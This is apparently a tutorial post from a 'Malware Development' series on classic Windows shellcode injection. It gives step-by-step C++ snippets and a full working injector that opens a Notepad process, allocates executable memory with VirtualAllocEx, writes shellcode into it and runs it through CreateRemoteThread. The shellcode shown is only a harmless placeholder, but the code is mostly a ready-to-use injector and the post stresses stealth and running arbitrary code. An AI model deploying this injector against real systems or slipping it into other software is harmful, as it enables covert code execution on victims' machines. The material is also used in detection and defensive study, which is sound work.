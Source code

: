 ```yaml
---
title: "Process Injection: Classic Shellcode Injection"
date: 2025-06-14 12:22:22
categories: [Malware Development, Process Injection]  
tags: [windows, shellcode, injection, process-injection, cpp]
---
```


Welcome to another post in the Malware Development series. In this article, we’ll break down **Classic Shellcode Injection**—one of the most fundamental and widely used process injection techniques. We’ll explain each step in detail, describe what’s happening under the hood, and provide clear C code samples along the way. At the end, you’ll find a full working example.

---

## What is Classic Shellcode Injection?

Classic shellcode injection is the process of injecting raw, position-independent code (shellcode) into the memory of another running process and then executing it. Shellcode is typically a small, handcrafted assembly payload designed to perform a specific action, such as spawning a shell or downloading a file. Unlike PE injection, shellcode is just a sequence of CPU instructions with no headers or sections.

---

## Why Use Shellcode Injection?

- **Stealth:** The injected code never appears as a file on disk.
    
- **Simplicity:** The technique is straightforward and effective.
    
- **Flexibility:** Works with any process you have access to, and can execute arbitrary code.
    

---

## Step-by-Step Classic Shellcode Injection

## 1. Locate the Target Process
First, you need to identify the process you want to inject into. This could be any running process—commonly something benign like `notepad.exe` or `explorer.exe`. You can enumerate processes using APIs like `CreateToolhelp32Snapshot` or, for demonstration, use `FindWindow` to get a PID by window name.

**Sample Code:**

```Cpp
// Example: Find the PID of Notepad by its window title
HWND hwnd = FindWindowW(L"Notepad", NULL);
DWORD targetPID = 0;
if (hwnd) {
    GetWindowThreadProcessId(hwnd, &targetPID);
}
if (targetPID == 0) {
    printf("Target process not found.\n");
    exit(1);
}

```

---

## 2. Obtain a Handle to the Target Process

With the PID in hand, you need to open the process with sufficient privileges to allocate memory, write to it, and create threads.

**Sample Code:**
```cpp
HANDLE hProcess = OpenProcess(
    PROCESS_CREATE_THREAD | PROCESS_VM_OPERATION | PROCESS_VM_WRITE,
    FALSE,
    targetPID
);
if (hProcess == NULL) {
    printf("OpenProcess failed. Error: %d\n", GetLastError());
    exit(1);
}

```

---

## 3. Allocate Memory in the Target Process

You must allocate a memory region in the target process that is large enough for your shellcode and marked as executable. This is done with `VirtualAllocEx`.

**Sample Code:**
```cpp
unsigned char shellcode[] = { 0x90, 0x90, 0x90, 0xCC, 0xC3 }; // Example shellcode (NOPs + INT3 + RET)
SIZE_T shellcodeSize = sizeof(shellcode);

LPVOID remoteMem = VirtualAllocEx(
    hProcess,
    NULL,
    shellcodeSize,
    MEM_COMMIT | MEM_RESERVE,
    PAGE_EXECUTE_READWRITE
);
if (remoteMem == NULL) {
    printf("VirtualAllocEx failed. Error: %d\n", GetLastError());
    CloseHandle(hProcess);
    exit(1);
}

```
---

## 4. Write the Shellcode to the Allocated Memory

Now, copy your shellcode from your process into the target process’s memory using `WriteProcessMemory`.

**Sample Code:**

```cpp
if (!WriteProcessMemory(hProcess, remoteMem, shellcode, shellcodeSize, NULL)) {
    printf("WriteProcessMemory failed. Error: %d\n", GetLastError());
    VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
    CloseHandle(hProcess);
    exit(1);
}
```

---

## 5. Execute the Injected Shellcode

Finally, create a new thread in the target process that starts execution at the address of your shellcode. This is done with `CreateRemoteThread`.

**Sample Code:**
```cpp
HANDLE hThread = CreateRemoteThread(
    hProcess,
    NULL,
    0,
    (LPTHREAD_START_ROUTINE)remoteMem,
    NULL,
    0,
    NULL
);
if (hThread == NULL) {
    printf("CreateRemoteThread failed. Error: %d\n", GetLastError());
    VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
    CloseHandle(hProcess);
    exit(1);
}
printf("Shellcode injected and thread started!\n");

````

---

## Full Working Example

```cpp
#include <windows.h>
#include <stdio.h>

int main() {
    // 1. Find Notepad PID (for demo)
    HWND hwnd = FindWindowW(L"Notepad", NULL);
    DWORD targetPID = 0;
    if (hwnd) {
        GetWindowThreadProcessId(hwnd, &targetPID);
    }
    if (targetPID == 0) {
        printf("Target process not found.\n");
        return 1;
    }

    // 2. Open target process
    HANDLE hProcess = OpenProcess(
        PROCESS_CREATE_THREAD | PROCESS_VM_OPERATION | PROCESS_VM_WRITE,
        FALSE,
        targetPID
    );
    if (hProcess == NULL) {
        printf("OpenProcess failed. Error: %d\n", GetLastError());
        return 1;
    }

    // 3. Allocate memory for shellcode
    unsigned char shellcode[] = { 0x90, 0x90, 0x90, 0xCC, 0xC3 }; // Example shellcode
    SIZE_T shellcodeSize = sizeof(shellcode);

    LPVOID remoteMem = VirtualAllocEx(
        hProcess,
        NULL,
        shellcodeSize,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    );
    if (remoteMem == NULL) {
        printf("VirtualAllocEx failed. Error: %d\n", GetLastError());
        CloseHandle(hProcess);
        return 1;
    }

    // 4. Write shellcode to remote process
    if (!WriteProcessMemory(hProcess, remoteMem, shellcode, shellcodeSize, NULL)) {
        printf("WriteProcessMemory failed. Error: %d\n", GetLastError());
        VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // 5. Create remote thread to execute shellcode
    HANDLE hThread = CreateRemoteThread(
        hProcess,
        NULL,
        0,
        (LPTHREAD_START_ROUTINE)remoteMem,
        NULL,
        0,
        NULL
    );
    if (hThread == NULL) {
        printf("CreateRemoteThread failed. Error: %d\n", GetLastError());
        VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    printf("Shellcode injected and thread started!\n");

    // Cleanup
    CloseHandle(hThread);
    CloseHandle(hProcess);

    return 0;
}

```
---

## Conclusion

Classic shellcode injection is the foundation of many process injection techniques. By following these steps—finding a target, opening it, allocating memory, writing shellcode, and creating a remote thread—you can execute arbitrary code in another process’s context. This method is simple, effective, and forms the basis for more advanced injection strategies
